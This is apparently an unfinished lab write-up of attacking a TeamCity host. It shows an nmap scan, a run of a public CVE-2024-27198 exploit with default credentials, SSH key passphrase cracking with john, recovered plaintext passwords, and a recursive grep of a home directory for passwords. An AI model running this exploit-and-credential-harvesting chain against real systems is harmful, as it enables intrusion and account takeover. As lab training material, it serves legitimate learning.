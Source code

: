 #Pwned! 
```IP
192.168.102.91
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.102.91 -vvv -p- -oN enum/full
```
The output being:
```
PORT    STATE  SERVICE REASON         VERSION                                                                                                                                                                             04:55:40 [3/1474]
22/tcp  open   ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFR/u8yZrrxkDWw/8gy/fNFksvT+QIL8O/6eD8zVxwKwgBURa9uRtOC8Dk6P+ktLwXJ9oSUitZeXVWjijbehpZBVHvywEOj9nc0bmk0+M/DGGbr1etS7cDvRzRATUtMPxQfYhzXqHlZe6Q2GfA0c75uybUXxOha8CTdK0Iv/maUUaiaPv3LGebQ4CpNaXNQfYVp
CdsxLn5MxFi+tfenn/4CinBPn1Ahnx499V1G0ANTaKLsEETjqaMd5jnmml2wH1GmKfKf/6FevWv0Q9Ylsi3x/ipkDpcQAMRQ/aw5NuSSDrGTdo0wRuuoEf5Ybenp9haPVxUAPHbEcMI2hdcP5B3Cd03qimMhHEkFXE8sTUxRKHG+hg7cF8On1EXZsH1fsVyrFAAoHRrap5CsubmNXT93EcK7lc65DbKgeqls643x0p/
4WOUiLXFstm6X4JCdEyhvWmnYtL3qDKMuQbCwrCJGeDjoaZTjHXbpjSxSnvtO04RT84x2t8MThyeYO3kSyM=
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNBWjceIJ9NSOLk8zk68zCychWoLxrcrsuJYy2C1pvpfOhVBrr8QBhYbJxzzGJ7DpuMT/DXiCwuLXdu0zeR4/Dk=
|   256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG3LJwn9us7wxvkL0E6EEgOPG3P0fa0fRVuJuXeASZvs
25/tcp  open   smtp    syn-ack ttl 61 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: onlyrands.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=onlyrands.com
| Subject Alternative Name: DNS:onlyrands.com
| Issuer: commonName=onlyrands.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-07T09:33:24
| Not valid after:  2034-06-05T09:33:24
| MD5:   c8cd:3971:35a3:7fc5:3769:ef5a:f9bc:57cb
| SHA-1: b41d:66cb:a6a2:b31a:2c73:6e42:c04e:17e5:003c:da69 
| -----BEGIN CERTIFICATE-----
| MIIC5TCCAc2gAwIBAgIUNIm+chfkmJj6erEydimvYkkmFSAwDQYJKoZIhvcNAQEL
| BQAwGDEWMBQGA1UEAwwNb25seXJhbmRzLmNvbTAeFw0yNDA2MDcwOTMzMjRaFw0z
| NDA2MDUwOTMzMjRaMBgxFjAUBgNVBAMMDW9ubHlyYW5kcy5jb20wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDPZBwhB0ccLHM6saGPQCHQckSsaDVmRlOv
| kqJDnApq0KcOLr2oX8xPuMBi/u3IUzLWrW9cawLVfd6flF5+ThdcvNPzjms0xOYh
| xqRwWD1CWPK5nbV/DWDfz7IaHdOFpN00cCNIblbZHl/Fts4rcWtm42aI/beilShQ
| LqqEPn2UU2ti6C4FmFdXdzHxA03Qy0rIIUNS2Gt0/dYH0AEhRSW4KtNLT3/0edzu
| OVMFIRumKNZvW0izOm72l0ak3g6A9dKTo8hAGaFjD+ZYhRr57CYtfF9QlZQxGPfm
| sax05QR4PNg0MzwH9/wok26sR0D1Cia1G/AU3rNoPXBk46l2GbtLAgMBAAGjJzAl
| MAkGA1UdEwQCMAAwGAYDVR0RBBEwD4INb25seXJhbmRzLmNvbTANBgkqhkiG9w0B
| AQsFAAOCAQEATfflEYN/YhQ318kgr06n/2uEgM54rKbrMCG4SItNdylp1KtmAx+Y
| ON7L/ayq3cBZGY2IQAJtTmbA30iPunaHS9ZG76f9XxuKhFyTDmjJjlGy8mJAMT1Q
| o9CMamHElIPEWklobL+N9ZHh6r62Gw6ByTzBTLVUh+EQF5M8vKHLD7GxpZlmWcBn
| NFGoTImjeMWGIp/P/GZJQhiKaE5AxbMjX7hZH8eWaRpt6aI+C+ZQlVB5m1scH4l4
| iracOJCaxrEjDGpOYiiSp4kh5+9NiaVHiNkmpswaEtdO7SVxToTKjeC8omNhF5iY
| jX7rqCVAbRHl0MCuk7NhAdRgwmfNT9VweQ==
|_-----END CERTIFICATE-----
80/tcp  open   http    syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: OnlyRands
| http-methods: 
|_  Supported Methods: GET HEAD
443/tcp closed https   reset ttl 61
Service Info: Host:  onlyrands.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP 80

login redirects us to http://teams.onlyrands.com/ so we add it to /etc/hosts

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105341.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105420.png?raw=true)


# Exploitation


https://github.com/W01fh4cker/CVE-2024-27198-RCE

```
python CVE-2024-27198-RCE.py -t http://teams.onlyrands.com -u admin -p admin
```

we can now login and we discover some users
```
patriciam
matthewa
marcot
kathleenw
```

we can create a backup and investigate
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120231.png?raw=true)

the database contains credentials

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120214.png?raw=true)

password doesnt crack so we try to execute commands with the previous exploit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120941.png?raw=true)
we get an error. Apparently we need to activate debug settings
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120702.png?raw=true)
even with this, it still doesnt work
we find something in the building porjects
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121254.png?raw=true)
an id_rsa key. We need a password tho
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121622.png?raw=true)
we crack it with 
```
ssh2john id_rsa
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122025.png?raw=true)
```
cheer
```
```
ssh marcot@192.168.102.91 -i id_rsa
```
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122213.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122341.png?raw=true)
searching for passwords we find
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202130232.png?raw=true)
```
IdealismEngineAshen476
```
```
su - matthewa
```

```
grep --color=auto -rnw '/home/freelancers/matthewa/' -ie "PASSWORD" --color=always 2> /dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202131725.png?raw=true)
```
RefriedScabbedWasting502
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133817.png?raw=true)
we have su permissions over 
```
/usr/bin/systemctl status teamcity-server.service
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133754.png?raw=true)
## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202124706.png?raw=true)
```
/home/freelancers/marcot/.gnupg/pubring.kbx
/home/freelancers/marcot/.gnupg/trustdb.gpg
```
### Mimikatz

# Lateral Movement

